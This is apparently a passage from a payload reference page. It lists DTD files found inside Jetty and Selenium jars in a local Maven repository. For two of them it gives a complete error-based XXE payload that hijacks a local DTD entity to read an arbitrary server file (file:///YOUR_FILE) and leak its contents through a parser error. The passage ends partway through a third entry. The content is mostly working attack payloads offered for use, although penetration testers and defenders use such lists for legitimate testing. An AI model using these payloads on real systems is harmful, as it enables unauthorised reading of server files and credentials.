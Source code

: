  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_3.dtd`

**Injectable entity:** `%VALUE`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_3.dtd">

    <!ENTITY % VALUE 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/mortbay/jetty/jetty/6.1.14/jetty-6.1.14.jar!/org/mortbay/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/mortbay/jetty/jetty/6.1.14/jetty-6.1.14.jar!/org/mortbay/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_6_0.dtd`
